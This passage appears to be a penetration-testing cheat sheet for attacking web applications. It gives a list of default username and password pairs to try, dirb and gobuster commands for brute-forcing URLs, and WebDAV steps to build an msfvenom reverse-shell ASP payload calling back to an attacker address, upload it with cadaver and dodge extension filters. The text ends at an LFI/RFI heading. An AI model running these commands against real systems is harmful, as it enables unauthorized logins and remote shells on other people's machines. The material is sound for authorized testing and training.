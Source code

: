#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
https://cirt.net/passwords
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### Url brute force

```
# Dirb
dirb http://INSERTIPADDRESS -r -o dirb-INSERTIPADDRESS.txt

#To append a .pl to the end of the resolutions:
dirb http://INSERTIPADDRESS/somedirectory -X .pl

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERTIPADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

#### WebDav

```
cadaver INSERTIPADDRESS
Try to put a shell.asp
cd /root/Dropbox/Engagements/INSERTIPADDRESS/exploit && msfvenom -p windows/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=443 -f asp -o shell.asp

put /root/Dropbox/Engagements/INSERTIPADDRESS/exploit/shell.asp
If the .asp extention is not allowed, try shell.asp.txt and use the mv command

user: wampp
pass: xampp 
```

#### LFI/RFI
